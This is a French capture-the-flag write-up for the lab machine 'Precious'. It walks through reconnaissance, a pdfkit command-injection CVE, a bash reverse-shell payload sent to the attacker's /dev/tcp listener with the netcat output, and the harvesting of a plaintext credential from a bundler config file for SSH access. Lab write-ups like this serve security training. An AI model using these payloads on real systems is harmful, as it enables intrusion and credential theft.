 # Precious



Reconaissance :&#x20;

```linker-script
nmap 10.10.11.189 -T5 -Pn

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```



En se connectant au serveur http via l'adress ip on tombe sur un DNS non résolu. Il faudra l'ajouter soit dans :&#x20;

* /etc/hosts    => Linux
* /Windows/System32/Drivers/etc/hosts  => Windows &#x20;

```
10.10.11.189  precious.htb
```

Nous arrivons sur la page suivante  :

<figure><img src="../../.gitbook/assets/Capture d’écran 2023-02-17 105939.png" alt=""><figcaption></figcaption></figure>

Afin de fournir une URL au site web il faudra demarrer un serveur Http en local :&#x20;

```powershell
python -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
```

En fournissant notre url nous recevrons un fichier .pdf à télécharger.&#x20;

l'analyse des metada du fichiers avec exif tool nous montre qu'il a etait generé avec pdfkit v0.8.6:

<figure><img src="../../.gitbook/assets/metadata_precious (1).png" alt=""><figcaption></figcaption></figure>

En recherchant sur internet on tombe sur une cve critique : [https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

avec un joli exemple d'injection de commande :&#x20;

```
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf # 5 seconds wait...
```

utilisons notre plugin chrome "hack-tools" en renseignant l'ip et le port d'ecoute pour notre reverse shell et adaptons notre url :&#x20;

<figure><img src="../../.gitbook/assets/reverse_precisous.png" alt=""><figcaption></figcaption></figure>

Notre url d'injection devient la suivante :&#x20;

```bash
http://10.10.14.213:8000/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.213/1234 <&1'`'}
```

Ouvrons notre listener netcat  et injectons la commande précedante &#x20;

```bash
PS C:\Users\Apotheas> ncat -nvlp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.11.189.
Ncat: Connection from 10.10.11.189:51630.
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ whoami
whoami
ruby
bash-5.1$
```

En fouillant avec l'affichage des dossiers caché 'ls -a'  on tombe sur le repertoire suivant  :&#x20;

```bash
/home/ruby/.bundle
bash-5.1$ ls
ls
config
bash-5.1$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Surement la clef SSH  !  lets try it  !&#x20;

<figure><img src="../../.gitbook/assets/ssh-precious.png" alt=""><figcaption></figcaption></figure>

Le premier flaf user se trouvait dans le fichier user.txt ! cherchons maintenant un moyen de chopper le flag root.&#x20;

<figure><img src="../../.gitbook/assets/yaml-precious.png" alt=""><figcaption></figcaption></figure>

Avec un "sudo -l " on s'apercoit que le user Henry a les droit pour lancer un script .yaml qui charge un fichier de dependance via la méthode File.read().
